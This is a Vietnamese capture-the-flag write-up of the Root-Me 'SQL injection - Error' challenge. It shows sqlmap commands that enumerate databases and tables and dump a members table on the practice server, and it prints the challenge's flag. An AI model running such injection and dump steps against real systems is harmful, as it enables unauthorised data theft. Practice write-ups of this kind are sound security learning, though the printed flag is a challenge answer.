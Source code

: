 
# Write up challenge SQL injection - Error

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Error)<br>

Truy cập challenge ta thấy gồm 2 trang Authentication | Contents

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

<br> Sau khi test bằng cách nhập `'` vào cuối url trang Contents em thấy rằng lỗi SQL injection 
 xuất hiện tại đây

<img src="./img/2.png" alt="normal_acc_TRAbID"/> 

Tiến hành sử dụng sqlmap với url này. Option -u chỉ định url cần khai thác, --dbs là để lấy dữ liệu database.

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs`

<img src="./img/03.png" alt="normal_acc_TRAbID"/>
<img src="./img/3.png" alt="normal_acc_TRAbID"/>

<br>

Trong các databasse tìm được, cần chú ý public. Thử tiếp tục khai thác. Gõ lệnh: (--tables lấy tên bảng trong database được chỉ định bởi option -D)

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables`

<img src="./img/04.png" alt="normal_acc_TRAbID"/>
<img src="./img/4.png" alt="normal_acc_TRAbID"/>

Tiếp tục khai thác các bảng tìm được. Option -T chỉ định bảng cần lấy data, --dump để lấy toàn bộ data của bảng này:

`sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump`

<img src="./img/05.png" alt="normal_acc_TRAbID"/>
<img src="./img/5.png" alt="normal_acc_TRAbID"/>

Có được passadmin tiến hành xác thực tại trang Authentication thì nhận được thông báo flag là pass admin.

<img src="./img/6.png" alt="normal_acc_TRAbID"/>

Submit thành công 

<img src="./img/7.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** 1a2BdKT5DIx3qxQN3UaC
